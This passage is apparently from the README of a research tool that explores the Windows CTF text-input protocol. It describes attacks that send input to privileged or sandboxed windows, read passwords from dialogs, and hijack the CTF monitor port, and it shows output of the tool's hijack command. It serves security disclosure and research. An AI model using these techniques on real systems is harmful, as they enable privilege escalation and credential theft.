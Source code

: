 CTF breaks these assumptions, and allows unprivileged processes to send input
to privileged processes.

There are some requirements for this attack to work, as far as I'm aware it
will only work if you have a display language installed that uses an OoP TIP,
*out-of-process text input processor*. Users with input languages that use IMEs 
(Chinese, Japanese, Korean, and so on) and users with a11y tools fall into this
category.

Example attacks include...

 * Sending commands to an elevated command window.
 * Reading passwords out of dialogs or the login screen.
 * Escaping IL/AppContainer sandboxes by sending input to unsandboxed windows.

There is an example [script](scripts/ctf-demo-editsession.ctf) in the scripts
directory that will send input to a notepad window to demonstrate how edit
sessions work.

[![Edit Session Screenshot](docs/edit-thumb.png)](docs/edit-session-full.png)

## Monitor Hijacking

Because there is no authentication involved between clients and servers in the
CTF protocol, an attacker with the necessary privileges to write to
`\BaseNamedObjects` can create the CTF ALPC port and pretend to be the monitor.

This allows any and all restrictions enforced by the monitor to be bypassed.

If you want to experiment with this attack, try the `hijack` command in `ctftool`.

```
An interactive ctf exploration tool by @taviso.
Type "help" for available commands.
ctf> hijack Default 1
NtAlpcCreatePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 00 11 00 00 44 11 00 00  ..0.. ......D...
000010: a4 86 00 00 b7 66 b8 00 00 11 00 00 44 11 00 00  .....f......D...
000020: e7 12 01 00 0c 00 00 00 80 01 02 00 20 10 d6 05  ............ ...
A a message received
        ProcessID: 4352, SearchUI.exe
        ThreadId: 4420
        WindowID: 00020180
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 ac 0f 00 00 0c 03 00 00  ..0.. ..........
000010: ec 79 00 00 fa 66 b8 00 ac 0f 00 00 0c 03 00 00  .y...f..........
000020: 12 04 01 00 08 00 00 00 10 01 01 00 00 00 00 00  ................
A a message received
        ProcessID: 4012, explorer.exe
        ThreadId: 780
        WindowID: 00010110
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 ac 0f 00 00 0c 03 00 00  ..0.. ..........
000010: fc 8a 00 00 2a 67 b8 00 ac 0f 00 00 0c 03 00 00  ....*g..........
000020: 12 04 01 00 08 00 00 00 10 01 01 00 58 00 00 00  ............X...
A a message received
        ProcessID: 4012, explorer.exe
        ThreadId: 780
...
```
